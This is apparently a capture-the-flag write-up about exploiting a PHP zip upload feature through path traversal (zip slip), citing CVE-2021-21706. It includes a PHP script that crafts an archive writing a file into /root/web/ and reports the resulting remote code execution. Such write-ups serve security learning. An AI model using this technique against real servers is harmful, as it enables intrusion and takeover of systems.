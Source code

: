 ![](/assets/images/emporium/pe9.png)

It was observed that each uploaded archive resulted in a new folder being created inside `/uploads/`. Only `.zip` files were fully extracted, indicating the presence of a archive handling logic.
`/uploads/$RANDOM_NUMBER/<contents>`


Further researching, I discovered that certain PHP versions were vulnerable to unsafe ZIP extraction behavior — specifically, allowing files inside an archive to be written to arbitrary paths when extracted

- `https://vulert.com/vuln-db/CVE-2021-21706`
- `https://bugs.php.net/bug.php?id=70019`

Attempted to create files with path traversal techniques (e.g., using `touch`), but file creation failed due to restricted paths or invalid filenames.
I crafted the following script to generate a malicious ZIP file

```php
<?php
$zipName = "shell";
$fileName = "rev.php";
$fileContent = '';
$zipInternalPath = "../../../../../root/web/" . $fileName;
file_put_contents($fileName, $fileContent);
$zip = new ZipArchive();
if ($zip->open($zipName, ZipArchive::CREATE | ZipArchive::OVERWRITE) !== TRUE) {
    die("Could not create zip archive\n");
}
$zip->addFile($fileName, $zipInternalPath);
$zip->close();
unlink($fileName);
echo "ZIP file '$zipName' created with '$zipInternalPath' inside.\n";
?>
```
The server processed the uploaded ZIP archive and created a folder under the `/uploads/` path. However, due to directory traversal in the file path, one file was extracted into `/root/web/`, which led to remote code execution when accessed.